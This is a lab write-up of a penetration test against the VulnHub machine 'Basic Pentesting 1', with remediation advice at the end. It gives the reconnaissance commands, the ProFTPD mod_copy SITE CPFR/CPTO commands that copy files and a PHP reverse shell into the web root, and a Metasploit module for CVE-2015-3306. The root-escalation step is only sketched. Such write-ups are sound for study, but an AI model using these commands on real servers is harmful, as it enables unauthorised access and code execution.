

# Basic Pentesting 1 — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Basic_Pentesting_1_Penetration_Test_Report.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Basic Pentesting 1 (VulnHub) |
| **Target IP** | `10.10.10.4` |
| **Attacker IP** | `10.10.10.3` |
| **Target OS** | Linux (Ubuntu 16.04) |
| **Difficulty** | Easy |
| **Assessment Type** | Network Penetration Test |
| **Key Vulnerabilities** | ProFTPD 1.3.5 mod_copy RCE (CVE-2015-3306), WordPress Directory Exposure, Weak Sudo Permissions |
| **Initial Foothold** | ProFTPD Arbitrary File Copy to Web Root -> PHP Reverse Shell |
| **Privilege Escalation** | Kernel Exploit or Weak Sudo / Shadow File Exposure -> `root` |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | CVE | Service / Port | Impact |
| :--- | :---: | :---: | :---: | :---: |
| **ProFTPD mod_copy Arbitrary Copy** | Critical | CVE-2015-3306 | Port 21 (ProFTPD 1.3.5) | Unauthenticated File Creation / Web Shell RCE |
| **WordPress Hidden Directory** | Medium | CWE-200 | Port 80 (/secret/) | Information Disclosure & Administrative Attack Surface |

---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Reconnaissance & Port Scanning

```bash
nmap -sV -sC -p- -T4 10.10.10.4
```
**Open Ports:**
* `21/tcp` — ProFTPD 1.3.5
* `22/tcp` — OpenSSH 7.2p2
* `80/tcp` — Apache httpd 2.4.18 (Ubuntu)

### Phase 2: Web & Service Enumeration

1. Navigating to `http://10.10.10.4/` reveals a default Apache page.
2. Directory busting with Gobuster / DirBuster discovers:
   * `/secret/` — A WordPress installation.
3. Scanning WordPress with WPScan:
   ```bash
   wpscan --url http://10.10.10.4/secret/ --enumerate u
   ```
   Discovers user `admin`.

### Phase 3: Exploiting ProFTPD 1.3.5 (CVE-2015-3306)

ProFTPD 1.3.5 is compiled with `mod_copy`, which allows unauthenticated clients to copy files using `SITE CPFR` and `SITE CPTO` commands.

We connect to port 21 with Netcat:
```bash
nc 10.10.10.4 21
```
Commands sent:
```text
220 ProFTPD 1.3.5 Server
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/secret/passwd.txt
250 Copy successful
```
Confirming write access into the Apache document root!

Now, upload a PHP reverse shell:
1. Connect via Netcat to inject PHP code into `/var/log/apache2/access.log` (via User-Agent or URL) or copy directly:
   ```bash
   nc 10.10.10.4 21
   ```
   ```text
   SITE CPFR /tmp/reverse.php
   SITE CPTO /var/www/html/shell.php
   ```
2. Alternatively, use the Metasploit module:
   ```bash
   msfconsole -q
   use exploit/unix/ftp/proftpd_modcopy_exec
   set RHOSTS 10.10.10.4
   set RPATH /var/www/html/shell.php
   run
   ```
3. A reverse shell is established with `www-data` privileges.

### Phase 4: Privilege Escalation to Root

1. Inspect local configuration and shadow/passwd files.
2. Enumerate `sudo -l` and kernel version (`Linux 4.4.0-21-generic Ubuntu`).
3. Exploit local permissions or dirtycow/kernel vulnerabilities to elevate to `root`:
   ```bash
   whoami
   root
   ```

---

## 🛡️ Remediation & Defensive Recommendations

1. **Update ProFTPD:** Upgrade ProFTPD to 1.3.6 or later where `mod_copy` enforces authentication checks.
2. **Web Server File Isolation:** Ensure the web root `/var/www/html` is owned strictly by a dedicated user and not writable by other system daemons.
